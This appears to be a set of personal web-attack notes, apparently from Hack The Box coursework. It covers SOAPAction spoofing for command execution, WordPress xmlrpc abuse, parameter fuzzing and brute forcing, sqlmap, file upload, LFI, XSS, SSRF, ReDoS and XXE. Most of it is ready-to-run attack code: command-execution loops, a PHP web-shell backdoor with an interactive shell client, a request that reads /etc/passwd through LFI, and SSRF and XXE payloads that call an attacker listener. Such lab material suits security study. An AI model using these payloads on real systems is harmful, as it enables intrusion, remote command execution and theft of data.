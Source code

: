 # SOAPAction Spoofing
```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
Payload deep drive
```bash
# given from version
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  
xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">

# LoginRequest is given as s:element name. 

<soap:Body><LoginRequest>
# Command cmd is coming from s:element name"ExecuteCommandRequest", but it doesn't allow external to internal traffic. So the script is using another operation. 
xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
```


Payload for Skill Assessment
```python
import requests

while True:
#    username = "admin' or '1' = '1' -- -"
    username = "kundrill0"
    password = "5403b63f6e34ac7baf9b45b12ebcdef8"
    cmd = input("$  ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><username>{username}</username><password>{password}</password><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://10.129.202.133:3002/wsdl", data=payload, headers={"SOAPAction":'"Login"'}).content)
    print(requests.post("http://10.129.202.133:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)

```


# Command Injection

# Attack WordPress 'xmlrpc.php'
1. Locate xmlrpc.php
2. Search for available methods. 
	1. https://codex.wordpress.org/XML-RPC/system.listMethods
3. exploit pingback.ping 
	1. Pingback is a special type of comment that allows you to link to antoher blog post, as long as the other blog is set to accept pingbacks.
	2. https://wordpress.com/support/comments/pingbacks/
	3. With ping back Attacks can do 
		1. IP Disclosure - An attacker can call the pingback.ping method on a WordPress instance behind Cloudflare to identify its public IP
		2. Cross-Site Port Attack (XSPA) - An attacker can call the pingback.ping method on a WordPress instance against itself (or other internal hosts) on different ports. Open ports or internal hosts can be identified by looking for response time differences or response differences.
		3. Distributed Denial of Service Attack (DDoS) - An attacker can call the pingback.ping method on numerous WordPress instances against a single target.
```
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://test.test.test/xmlrpc.php


curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://test.test.test/xmlrpc.php


```
# Information Disclosure
1. Check parameter 
```
ffuf -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u http://test/?FUZZ=test
```

2. Brute force 
```python
import requests

BASE_URL = "http://test/"

for i in range(1, 10001):
    try:
        response = requests.get(BASE_URL, params={'id': i})
        response.raise_for_status()  # Will raise an HTTPError if the HTTP request returned an unsuccessful status code

        if response.text.strip():  # Check if the response is not empty
            print(f"Result for id={i}: {response.text}")
        
    except requests.RequestException:
        pass  # Do nothing for this id if there's an error

print("Finished sending requests.")
```

3. sqlmap
[SQLMAP](SQLMAP.md)
```bash
sqlmap -u "http://test/?id=1" -D database -T Table -C column 

```
# Arbitrary File Upload
1. Identify vulnerable page that allows uploading files. I should have access to the uploaded file.
3. Create a backdoor file
```backdoor.php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>

```

3. Upload a file and check Content-Type header: application/x-php --> no protection in place. 
4. Generate a python shell to do interactive shell
```python
import requests

BASE_URL = "http://127.0.0.1/home.php"

def send_command(cmd):
    try:
        response = requests.get(BASE_URL, params={'cmd': cmd})
        response.raise_for_status()
        return response.text.strip()
    except requests.RequestException as e:
        return f"Error: {e}"

def main():
    print("[*] Interactive shell started. Type 'exit' to quit.")
    while True:
        try:
            cmd = input("shell> ")
            if cmd.strip() == "exit":
                print("[*] Exiting interactive shell.")
                break
            result = send_command(cmd)
            print(result)
        except KeyboardInterrupt:
            print("\n[*] Interactive shell interrupted. Exiting.")
            break

if __name__ == "__main__":
    main()
```


# Local File Inclusion (LFI)
1. Find API page. 
2. Fuzz for end-points
```
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'
```
3. Execute LFI
```
curl "http://10.129.202.133:3000/api/download/%2f..%2f..%2f..%2f..%2fetc%2fpasswd"
```


# Cross-Site Scripting
1. Find API page
2.  Execute url encoded XSS
```
%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

```


# Server-Side Request Forgery
```
echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64


curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```

# Regular Expression Denial of Service (ReDoS)
Send regex value and delay the response. 
Resources
1. Visualize the regex with the below. 
https://regex101.com/
https://jex.im/regulex/

2. Send a malicious data
```
curl "http://<TARGET IP>:3000/api/check-email?email=jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555."

```

# XML External Entity (XXE) Injection
1. Locate XML 
2. Insert <!DOCTYPE> 
```
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>
```
e.g.
```
curl -X POST http://10.129.112.21:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://test"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'
```
